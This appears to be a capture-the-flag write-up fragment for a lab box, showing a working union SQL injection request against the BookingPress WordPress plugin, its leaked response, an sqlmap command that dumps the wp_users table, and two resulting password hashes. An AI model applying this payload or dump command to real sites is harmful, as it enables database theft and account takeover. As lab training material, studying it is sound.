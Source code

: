 payload 

union sql injecton with payload 'user()' on column number 5
```bash
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: metapress.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://metapress.htb/events/
Content-Type: application/x-www-form-urlencoded
Content-Length: 142
Origin: http://metapress.htb
DNT: 1
Connection: close
Cookie: wp-settings-time-2=1667539307; PHPSESSID=as93oqjvmjhla72rlt3ir0pfes

action=bookingpress_front_get_category_services&_wpnonce=49de241183&category_id=1&total_service=1)+union+all+select+1,2,3,4,user(),6,7,8,9--+-
```

response 

```bash
[{"bookingpress_service_id":"1","bookingpress_category_id":"1","bookingpress_service_name":"Startup meeting","bookingpress_service_price":"$0.00","bookingpress_service_duration_val":"30","bookingpress_service_duration_unit":"m","bookingpress_service_description":"Join us, we will celebrate our startup!","bookingpress_service_position":"0","bookingpress_servicedate_created":"2022-06-23 18:02:38","service_price_without_currency":0,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"},{"bookingpress_service_id":"1","bookingpress_category_id":"2","bookingpress_service_name":"3","bookingpress_service_price":"$4.00","bookingpress_service_duration_val":"blog@localhost","bookingpress_service_duration_unit":"6","bookingpress_service_description":"7","bookingpress_service_position":"8","bookingpress_servicedate_created":"9","service_price_without_currency":4,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]
```

response come user "blog@localhost"

###### Automate injection with Sqlmap 

Save the raw request into req.txt file and load to sqlmap
```bash
sqlmap -r req.txt -p total_service --dump -D blog -T  wp_users
```

Dumping wp_users

Two users

```bash
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

manager is crackable 
